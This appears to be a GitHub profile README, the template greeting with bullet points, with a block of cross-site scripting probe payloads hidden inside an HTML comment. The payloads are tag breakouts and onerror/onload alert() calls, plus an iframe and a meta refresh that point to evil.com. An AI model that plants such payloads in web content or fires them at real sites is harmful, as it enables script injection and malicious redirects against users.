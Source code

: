 - 👋 Hi, I’m @sontorico77
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---')alert()(' "-alert()-"` -->%0d%0a\r\n/r/n&#039;&quot;&gt;&lt;/div&gt;&lt;svg/onload=alert()&gt;"'")))}}}]]]))>>><!DOCTYPE html    <noscript><img title="</noscript> <p><img src="x" alt="" /> ""&gt; "</p>  <p><img src="x" onerror=alert() alt="" /> ""&gt; "</p><noscript><img title="</noscript> <p><img src="x" alt="" /> ""&gt; "</p>  <p><img src="x" onerror=alert() alt="" /> ""&gt; "</p>
></content></author></thr:total></email></uri></entry></th></entry></tbody></thead></table></td></br><br></div></title></style></html></a></strong></span><img src onerror=alert(3)></code></noscript></iframe><iframe src=https://evil.com></iframe><meta http-equiv=content-type content=text/html; charset=UTF-8><meta http-equiv=refresh content=0;URL=https://evil.com /><content type="html">&lt;img src onerror=alert(2)&gt;<svg/onload=alert(1)></content><noscript><p title="</noscript> <img src="x" onerror="alert(1)"> ""
sontorico77/sontorico77 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
